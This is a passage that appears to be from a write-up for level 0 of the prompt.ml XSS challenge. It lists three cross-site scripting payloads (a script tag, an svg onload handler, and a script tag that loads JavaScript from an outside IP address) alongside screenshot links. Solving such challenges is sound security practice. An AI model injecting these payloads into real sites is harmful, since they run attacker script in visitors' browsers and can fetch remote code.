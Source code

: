 ## Img:

1. `"><script>prompt(1)</script>`

![0_1](/img/xss/prompt_ml/level0_001.png)

2. `"><svg onload=prompt(1)>`
   
![0_2](/img/xss/prompt_ml/level0_002.png)

3. `"><script src="http://10.60.250.250/pro.js"></script>`
   